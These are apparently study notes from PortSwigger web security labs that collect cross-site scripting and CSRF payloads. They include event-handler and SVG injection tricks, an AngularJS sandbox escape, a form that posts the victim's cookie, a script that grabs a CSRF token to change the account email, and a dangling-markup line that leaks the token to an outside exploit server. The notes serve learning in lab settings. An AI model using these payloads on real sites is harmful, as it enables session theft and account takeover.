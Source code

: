 A `<script>` tag inserted with `innerHTML` will not execute.

jQuery selector vulnerability: (recent version has fixed this)
`var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');`
this will always result in creating a new node in the background of the DOM when a node is passed to the `contains` method

Auto foucs: use fragment `#x`

    <my-tag id='x' onfocus=alert() tabindex=0></my-tag>

Accesskey: add this attribute `accesskey='x' onclick=alert()`
- On Windows: `ALT+SHIFT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`

The closing tag inside quotes will be treated as HTML entity not a string, therefore this will be executed:

    <script>var x = 'hello</script>'

Bypass single/double quotes and backslash escape using HTML encoding and take advantage of Javascript precedence:

    <a href="http://aha?'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http:/aha?&apos;-alert(1)-&apos;');">avvv</a>

- Consider `x = 'http:/aha?' - alert(1) - ''` -> `alert(1)` will be executed first and then return undefined, `'http:/aha?'` will be converted to a number but since it's not a valid number, it would be NaN -> x = NaN
- Why HTML encoding works here: the payload is writing into the `onclick` event in the context of HTML, that's why when the browser sees the HTML encoded version of the single quote, it automatically decodes it into a valid single quote.

Make the victim post the comment showing it's cookie:

    <form
      id="my-form"
      action="/post/comment"
      method="POST"
      enctype="application/x-www-form-urlencoded"
    >
      <input type="hidden" name="postId" value="4" />
      <input type="hidden" name="comment" id="cmt" />
      <input type="hidden" name="csrf" id="csrf" />
      <input type="hidden" name="name" value="victim" />
      <input type="hidden" name="email" value="haha@gmai.com" />
      <input type="hidden" name="website" value="http://ahav.com" />
    </form>
    <script>
      setTimeout(() => {
        originalCsrf = document.getElementsByName("csrf")[1];

        myform = document.getElementById("my-form");
        comment = document.getElementById("cmt");
        csrf = document.getElementById("csrf");
        comment.value = document.cookie;
        csrf.value = originalCsrf.value;
        myform.submit();
      }, 1000);
    </script>

Create script to silmutanously getting the csrf value and sending the change-email request:

    <script>
      var req = new XMLHttpRequest();
      req.onload = send;
      req.open("get", "/my-account", true);
      req.send();
      function send() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
      }
    </script>

Use `<svg>` with `<animate>` to set attribute to `<a>` tag

    <svg>
        <a>
            <animate attributeName="href" values="javascript:alert(1)" />
            <text x="20" y="20">Click me</text>
        </a>
    </svg>

Inject `Content-Security-Policy: script-src-elem 'unsafe-inline'` header to allow the execution of inline script

Dangling markup attack to steal CSRF token:
when the CSRF token is below the place where dangling markup attack could occur, use this to send the CSRF to a listening server
`<a href='https://exploit-0aed003e03a2984d80fa02d801000015.exploit-server.net/exploit?`
This will make a GET request to the server with the parameter containing the CSRF token.

### LAB: Reflected XSS with AngularJS sandbox escape without strings

  /?search=123&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

**Execution Chain:**
| **Step** | **What Happens?** |
|----------|------------------|
| **1** | `charAt` is modified to `[].join`, enabling further manipulation. |
| **2** | `fromCharCode()` constructs `"x=alert(1)"` dynamically. |
| **3** | `orderBy` evaluates `"x=alert(1)"=1`, which executes `alert(1)`. |
| **4** | **XSS is triggered**. |
